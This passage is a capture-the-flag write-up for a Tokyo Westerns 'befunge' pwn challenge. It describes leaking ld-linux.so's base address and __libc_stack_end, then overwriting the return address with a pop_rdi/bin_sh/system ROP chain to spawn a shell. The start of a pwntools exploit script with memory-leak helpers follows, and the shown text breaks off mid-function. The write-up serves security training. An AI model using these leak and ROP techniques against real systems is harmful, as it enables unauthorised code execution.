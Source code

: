 By the time I was solving this challenge, the only way left I know is to leak the `__libc_stack_end` symbol in the `ld-linux.so`. To achieve this I'll have to leak the `ld-linux.so`'s base address from the `DT_DEBUG` info, which is placed in the .dynamic section of the binary. As for the version of the `ld-linux.so`, I just assume it's the same version with the libc.so, which is Ubuntu 14.04, 64bit. Luckily, the actual binary can be retrieved from my other VM. 

It took me a lot of time and work to do the whole thing, and the method's not elegant. Fortunately, it worked, and I was able to overwrite the return address with the typical x64 ROP chain: `pop_rdi --> bin_sh -->system`. At last, we are able to spawn a shell and get the flag.  
  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import math

HOST = "pwn1.chal.ctf.westerns.tokyo" 
PORT = 62839
ELF_PATH = "./befunge_patch"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def leak_one_byte(off_1, off_80):
    r.sendline(str(off_1))
    r.sendline(str(off_80))
    ret = r.recvuntil(" ")
    return int(ret)

def leak_addr(base, off_80, name=None):
    ret_addr = 0
    cnt = 0
    for i in xrange(base, base+6):
        print "leaking %s byte : %d" % (name, cnt+1)
        ret = leak_one_byte(i, off_80)
```